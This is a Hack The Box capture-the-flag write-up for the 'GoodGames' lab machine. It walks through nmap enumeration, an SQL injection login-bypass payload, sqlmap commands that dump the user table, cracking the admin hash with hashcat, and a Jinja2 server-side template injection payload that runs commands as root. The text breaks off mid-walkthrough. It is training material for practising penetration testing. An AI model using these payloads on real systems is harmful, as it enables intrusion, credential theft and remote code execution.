# HTB: GoodGames


| Field | Details |
| - | - |
| Platform | [Hack The Box](https://app.hackthebox.com/machines/GoodGames) |
| Difficulty | Easy |
| OS | Linux |
| Author | ByteFragment |
| Date | October 22nd 2026 |


## Enumeration

Before we do anything lets create three files:

1. credentials.txt where we will store valid username/passwd combinations

2. users.txt where we will store all usernames we come across

3. pass.txt where we will store all passwords we come across

Having separate files for usernames and passwords in addition to a valid credentials file helps us enumerate for things like password reuse if applicable.

### NMAP

Let's start off by port scanning the target using nmap via the command:

```
sudo nmap -sC -sV -T4 -p- 10.129.86.249 -oN nmap
```

This gives us the open TCP ports running on the target machine as well as the services running on those ports. The `-oN nmap` flag and argument means that the output will also be written to a file titled `nmap` so we can reference it later if needed without running a whole new scan.

From the nmap results, we can see that the target machine is running an `http server` on port `80`, specifically running `Werkzeug httpd 2.0.2 (Python 3.9.2)`.

### Web Recon

After adding `GoodGames.htb` and the target IP address to our `/etc/hosts` file we can visit the URL using the `BurpSuite Browser`:


The web page appears to be a video game blog/store so lets do some enumeration and see if we can find anything interesting.

Clicking on the `Store` link in the top header takes us to a `Coming Soon` page where we can enter in an email to receive updates:



Entering in a test email results in an error so let's move on.

The `BLOG` link takes us to the blog section of the web page that contains various articles that include the ability for logged in users to leave comments:



Let's take a look at the sign in form:



Here we see that along with the standard login form we also have the option to sign up if we are not a member or reset our password. Let's try and register an account:



After filling in the information we can use the BurpSuite Proxy to intercept the registration request:



We can see that the information we entered is url-encoded before being sent in the request body with its corresponding parameter. Forwarding the packet successfully registers our account:



After logging in with or credentials we can view our profile by clicking on the icon in the top right of the homepage:



## Exploitation

Now that we've enumerated the target web page to a sufficient degree we can move onto attempting to exploit the system.

Going back to the login form we find something interesting, if we try to login with the wrong email or password we get a `500 INTERNAL SERVER ERROR` response:



However if we include a single quite in the email then we are redirected to the sign up page indicating that the ' altered how the back end processed the username. This tells us that the email field is potentially vulnerable to `SQL Injection`.

Given that this is a SQLI vulnerability in the login form we can potentially use it to bypass authentication and login as admin!

For this we can use the payload

```
admin' or  '1' = '1' --
```

What this does is alter the back end SQL statement return true if the username is `admin` or if the statement `'1' = '1'` is true which it always is. the `--` the comments out all the rest of the SQL query that checks for the password. When we use this payload within the email parameter we get a `LOGIN SUCCESSFUL WELCOME ADMIN` response:



### SQLMap

In order to exploit this SQLI vulnerability we will use the SQLMap tool.

Our first step is copy the login request and all its headers by

- Opening the Burp Browser

- Right click on our target web page and click inspect.

- Go to the `Network`

- Attempt to login

- Find the POST request for the login attempt and right click \> Copy \> Copy as cURL



We can then use this in our SQLMap command, it should look like this:

```
sqlmap --url 'http://goodgames.htb/login' \\  
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,\*/\*;q=0.8,application/signed-exchange;v=b3;q=0.7' \\  
  -H 'Accept-Language: en-US,en;q=0.9' \\  
  -H 'Cache-Control: max-age=0' \\  
  -H 'Content-Type: application/x-www-form-urlencoded' \\  
  -H 'Origin: http://goodgames.htb' \\  
  -H 'Proxy-Connection: keep-alive' \\  
  -H 'Referer: http://goodgames.htb/' \\  
  -H 'Upgrade-Insecure-Requests: 1' \\  
  -H 'User-Agent: Mozilla/5.0 (X11; Linux x86\_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/151.0.0.0 Safari/537.36' \\  
  --data-raw 'email=test%40email.com&password=hacker1234'
```

Running this we confirm that the `email` field is indeed vulnerable to SQL Injection, specifically time-based blind injection. Additionally we find out that the server is using MySQL as the back end database.

```
...  
  
POST parameter 'email' appears to be 'MySQL \>= 5.0.12 AND time-based blind (query SLEEP)' injectable   
it looks like the back-end DBMS is 'MySQL'  
  
...
```

Lets see that databases exist by adding `--dbs` to our command, we will also add `--dbms-mysql` since we know that is what the server is running.

Running this tells us that there are two databases: `information\_schema` and `main`:

```
\[18:38:28\] \[INFO\] fetching database names  
\[18:38:28\] \[INFO\] fetching number of databases  
\[18:38:28\] \[INFO\] retrieved: 2  
\[18:38:30\] \[INFO\] retrieved: information\_schema  
\[18:39:40\] \[INFO\] retrieved: main  
available databases \[2\]:  
\[\*\] information\_schema  
\[\*\] main
```

Let's explore the `main` database further by listing its tables by replacing the `--dbs` with `-D main --tables`:

```
... --data-raw 'email=test%40email.com&password=hacker1234' --dbms=mysql -D main --tables
```

This returns three tables: `user`, `blog`, `blog\_comments`.

```
...  
  
Database: main  
\[3 tables\]  
+---------------+  
| user          |  
| blog          |  
| blog\_comments |  
+---------------+
```

Lets dump the `user` table by replacing the `--tables` with `-T main --dump`:

```
... --data-raw 'email=test%40email.com&password=hacker1234' --dbms=mysql -D main -T user --dump
```

The `user` table contains one entry for the `admin` user:

```
Database: main  
Table: user  
\[1 entry\]  
+----+---------------------+--------+----------------------------------+  
| id | email               | name   | password                         |  
+----+---------------------+--------+----------------------------------+  
| 1  | admin@goodgames.htb | admin  | \<REDACTED\>                       |  
+----+---------------------+--------+----------------------------------+
```

While this does contain the admins password it appears to me an MD5 hash so we will need to crack it. We can do this my copying the password hash into a file titled `admin.hash` and using `hashcat`.

### Hashcat

The hashcat mode for MD5 is 0 but it is useful to know how to look these things up from the command line. We can find out all the supported hashed and their modes by running hashcat with the `-hh` flag.

Additionally we will be using the `rockyou` wordlist, which is a massive collection of leaked passwords.

Our end command looks like this:

```
hashcat -m 0 admin.hash /usr/share/wordlists/rockyou.txt 
```

After a few seconds we find that the password has successfully been cracked!

## Enumeration

After using these new found admin credentials we find that in addition to the profile icon in the top right of the page there is also now a cog icon:



This takes us to a new subdomain : `internal-administration.goodgames.htb` however it results in an error as we need to add this subdomain into our /etc/hosts file for it to resolve.

Once we have done this we a given a login page for a `Flask Volt Dashboard`:



Luckily our admin credentials also work here so we are able to successfully log in:



The Overview on the left side of the page lists:

- Dashboard

- Transactions

- Settings

The `Settings` page contains a General Information section that allows us to update/alter the Full Name, Birthday, and Phone Number of the user we are logged in as, in this case `admin`:



Lets change some of the information and see what happens:



After we save our changes a new element of the page appears showing the information of the current account. However the only changeable element displayed is the `Full Name`.

Re-submitting the request but this time intercepting it in BurpSuite we can see that the only form parameter sent in the POST request is the `name` parameter:



At this point the point of access is not immediately apparent but after some online searching it is revealed that it is somewhat common for Python based Flask applications to be vulnerable to `Server-Side Template Injection` or SSTI.

#### So how do we test for this?

We can test for this by changing the name parameter in the POST request to include the SSTI payload. More specifically we need to supply a payload that when dynamically rendered by the application confirms the vulnerability.

First we need to determine what template engine is being used, thankfully [PortSwigger](https://portswigger.net/web-security/server-side-template-injection#what-is-server-side-template-injection) provides great information about SSTI vulnerabilities as well as a flow chart of example payloads to determine the engine being used:



Using the flow chart we can thus verify that the server using either Jinja2 or Twig since the payload `\{\{7\*'7'\}\}` returns the correct result `7777777` :



## Foothold

Knowing the template engine allows us to use the correct syntax in our payload, [payloadplayground](https://payloadplayground.com/cheatsheets/ssti) has a lot of great example payloads for each engine.

Since we are dealing with a `Jinja2` instance we will use the payload:

```
\{\{config.\_\_class\_\_.\_\_init\_\_.\_\_globals\_\_\['os'\].popen('id').read()\}\}
```

When sent as the value of the `name` parameter we see that the command is being run as root :



Now this works great if we are only trying to execute single word commands but this is extremely limiting. However we cannot use direct spaces in the payload as it breaks the syntax of the `names` parameter:



Notice how the text after the space is black instead of orange, this indicates that it is not being treated as part of the name parameters value.

So how can e get around this?

